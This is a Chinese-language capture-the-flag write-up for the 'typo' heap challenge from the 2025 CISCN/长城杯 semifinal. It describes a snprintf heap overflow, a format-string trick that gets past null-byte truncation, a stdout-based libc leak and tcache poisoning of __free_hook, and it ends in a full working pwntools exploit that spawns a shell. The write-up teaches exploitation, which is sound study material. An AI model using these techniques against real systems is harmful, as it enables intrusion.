







# 2025CISCN&长城杯半决赛 PWN typo详细题解-先知社区

> **来源**: https://xz.aliyun.com/news/17462  
> **文章ID**: 17462

---

## typo

### 代码审计及思路

有三个功能add，free，edit，没有uaf，漏洞在edit中。



可以读入0x100个字节在栈上，然后snprintf函数会把栈上的这些数据复制给堆块里，造成堆溢出，但是snprintf会被\x00截断，那就是说只能覆盖size位了吗？当然不是，可以通过一些格式化字符绕过，把payload里的\x00替换为%n$p，去找偏移为n，数据为0的，这样可以通过snprintf输出给堆块，并且不影响payload。

这样写，snprintf在解析format时不会遇到\x00，而是去解析这个%n$p，但是解析到为0，依然会输出给原来\x00的位置，这样绕过\x00截断问题。

```
def replace(payload):
    return payload.replace(b'\x00',b'%39$c')+b'\x00'
```

还有一个点就是add中会保存size在fd位，同时edit是根据这个size读入数据的，如果通过溢出修改这个size，就是常见的堆溢出，改tcache bins中堆块的fd为free\_hook等操作。

这样的话，这道题肯定还是要先泄露libc，那么没有show且保护全开，结合上面的漏洞。

1. 先利用堆溢出合并一个可以进入unsorted bins的堆块，同时合并前的一个小堆块留在tcachebins，改main\_arena这个libc地址最后两位为stdout，远程需要爆破，得到libc地址。
2. 然后把合并的堆块恢复回去，通过修改其中一个堆块的fd的size，利用两次修改后面堆块的fd分别为free\_hook，和/bin/sh，即可getshell

### gdb调试

首先是堆块合并，



然后令2号堆块同时位于tcache bins和unsorted bins中，



改为stdout-8，因为edit的读入在bk位，



get\_libc\_base



之后就是改一个size，然后改tcache bins内堆块的fd，同样是free\_hook-8，



getshell



### exp

```
from pwn import* 
def rl(a):
    p.recvuntil(a)
def s(a):
    p.send(a)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def get_addr():
    return u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
def inter():
    p.interactive()
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__() 
def bug():
    gdb.attach(p)
    pause()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')  

context(os='linux',arch='amd64',log_level='debug')
libc=ELF("./libc-2.31.so")
elf=ELF('./pwn')
file_name = './pwn'
debug = 0
if debug:
    p = remote('',)
else:
    p = process(file_name)

def add(idx,size):
    sla(b'>> ',str(1))
    sla(b'Index: ',str(idx))
    sla(b'Size: ',str(size))
def free(idx):
    sla(b'>> ',str(2))
    sla(b'Index: ',str(idx))
def edit(idx,size,c):
    sla(b'>> ',str(3))
    sla(b'Index: ',str(idx))
    rl(b'New size of content: ')
    s(size)
    rl(b'say: ')
    s(c)
def replace(payload):
    return payload.replace(b'\x00',b'%39$c')+b'\x00'
#
add(0,0x98)
add(1,0xa8)
add(2,0x98)
add(3,0x98)
add(4,0x98)
add(5,0x98)
add(6,0x98)
add(7,0x98)
add(8,0x98)
add(9,0x20)
edit(0,b'a'*0xa8+p64(0x4e1),b'a'*0x88)
free(1)
free(8)
free(2)
add(1,0xa8)
#stdout get_libc_base
payload=b'a'*0xa8+p64(0xc1)+p64(0xd0)
edit(0,replace(payload),b'a')
payload=b'a'*0xb0+p64(0x421)+b'\x98\x26'
edit(1,str(0xc0),payload)
add(2,0x98)
add(10,0x98)
payload=p64(0xfbad1800)+p64(0)*3+b'\x00'
edit(10,str(0xc0),payload)
libc_base=get_addr()-0x1ec980
li(hex(libc_base))
free_hook=libc_base+libc.sym['__free_hook']
system,binsh=get_sb()
#
edit(1,str(0xc0),b'a'*0xb0+p64(0xb0)+p64(libc_base+libc.sym['__malloc_hook']+88+0x10)*2)
free(6)
free(5)
payload=b'a'*0xa8+p64(0xb1)+p64(0xc0)
edit(3,replace(payload),b'a')
payload=b'a'*0xa0+p64(0xb0)+p64(free_hook-8)
edit(4,str(0xc0),payload)
add(5,0x98)
payload=b'a'*0xa0+p64(0xb0)+b'/bin/sh\x00'
edit(4,str(0xc0),payload)
add(11,0x98)
edit(11,p64(system),p64(system))
#bug()

free(5)

inter()

```
